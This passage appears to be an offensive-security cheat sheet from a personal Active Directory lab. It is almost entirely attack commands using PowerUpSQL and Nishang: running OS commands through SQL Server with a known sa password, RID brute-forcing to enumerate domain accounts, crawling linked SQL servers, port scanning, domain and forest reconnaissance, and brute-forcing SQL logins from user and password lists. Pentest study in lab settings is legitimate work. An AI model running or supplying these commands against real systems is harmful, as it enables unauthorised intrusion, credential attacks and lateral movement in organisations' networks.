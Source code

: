 ```bash
nslookup -type=srv _ldap._tcp.dc._msdcs.child.soheil.lab 192.168.100.7
```

# Powershell

#### **MSSQL Enumeration**

1. Execute OS commands via SQL Server:

```powershell
invoke-sqloscmd -username sa -password bookapp -instance websrv\sqlexpress -command whoami
```

2. Brute-force RID (Relative Identifier) to enumerate domain accounts:

```powershell
Get-SQLFuzzDomainAccount -Instance websrv\sqlexpress -StartId 500 -EndId 2000 -Verbose
Get-SQLFuzzDomainAccount -Instance websrv\sqlexpress -StartId 500 -EndId 2000 -Domain soheil -Verbos
```

3. Enumerate linked SQL servers:

```powershell
Get-SQLServerLinkCrawl -Instance websrv\sqlexpress -Verbose
```
#### **Nishang PowerShell Recon**

1. Port scanning within a specific IP range:

```powershell
invoke-PortScan -StartAddress 192.168.100.1 -EndAddress 192.168.100.13 -ResolveHost -ScanPort 
```
2. Retrieve the current DNS domain name:
```powershell
$env:USERDNSDOMAIN
```
3. Get the DNS root of the domain:
```powershell
(Get-ADDomain).DNSRoot
```
4. Retrieve the domain name using WMI:
```powershell
(Get-WmiObject Win32_ComputerSystem).Domain
```
5. Get domain and forest details:
```powershell
Get-ADDomain | select DNSRoot,NetBIOSName,DomainSID
```

```powershell
Get-ADForest
```

6. Perform brute-force on SQL service:
```powershell
$comp = (get-sqlinstancedomain).computername

$comp | invoke-bruteforce -userlist c:\users\public\user.txt -passwordlist c:\users\public\password.txt -service sql -verbose
```
